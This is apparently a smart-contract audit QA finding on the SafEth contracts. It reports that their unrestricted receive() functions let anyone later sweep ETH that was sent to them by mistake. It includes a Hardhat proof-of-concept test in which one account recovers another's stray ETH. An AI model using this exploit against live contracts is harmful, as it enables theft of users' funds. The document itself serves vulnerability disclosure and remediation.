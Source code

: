 # QA Report

## [L-01] `receive()` function allows anyone to send ETH
https://github.com/code-423n4/2023-03-asymmetry/blob/main/contracts/SafEth/SafEth.sol#L246
https://github.com/code-423n4/2023-03-asymmetry/blob/main/contracts/SafEth/derivatives/SfrxEth.sol#L126
https://github.com/code-423n4/2023-03-asymmetry/blob/main/contracts/SafEth/derivatives/WstEth.sol#L97
https://github.com/code-423n4/2023-03-asymmetry/blob/main/contracts/SafEth/derivatives/Reth.sol#L244

Intentional use of `receive()` in `SafEth.sol` is to receive ETH when `derivative.withdraw` is called. Since there are no checks on `msg.sender`, anyone can send ETH and it will result in a loss of funds. Suggest checking if the `msg.sender` is one of the derivative contracts.

The same goes for derivative contracts - ETH is only expected to be received from known protocol contracts. And because all of the derivative contracts transfer ETH via `withdraw` function where the whole ETH balance is sent, these funds can be stolen.

```solidity
 receive() external payable {}
```

### Example
Alice accidentally sends ETH straight to `WstEthStaking` contract instead of calling `safEthProxy.stake` .

Bob sees that Alice has sent ETH to `WstEthStaking` contract. He stakes and unstakes ETH and receives that 1 ETH that has been sent by Alice.

```typescript   
it("Bob should get Alice's sent ETH ", async () => {
      const [_, alice, bob] = await ethers.getSigners();

      // derivatives addresses
      const WstEthStakingAddress = await safEthProxy.derivatives(2);

      const bobBalanceBefore = await ethers.provider.getBalance(bob.address);

      // Transfer ETH to WstEthStakingAddress
      await alice.sendTransaction({
        to: WstEthStakingAddress,
        value: ethers.utils.parseEther("1"),
      });

      // Bob stakes and unstakes 1 ETH
      await safEthProxy.connect(bob).stake({
        value: ethers.utils.parseEther("1"),
      });
      await safEthProxy
        .connect(bob)
        .unstake(await safEthProxy.balanceOf(bob.address));

      const bobBalanceAfter = await ethers.provider.getBalance(bob.address);

      console.log(
        "Bob got additional",
        Number(bobBalanceAfter.sub(bobBalanceBefore).toString()) / 1e18,
        "ETH"
      ); // Bob got additional 0.9914137732229785 ETH (after gas fees)

      // We expect bob to have more ETH than before
      expect(bobBalanceAfter).to.be.gt(bobBalanceBefore);
    });
```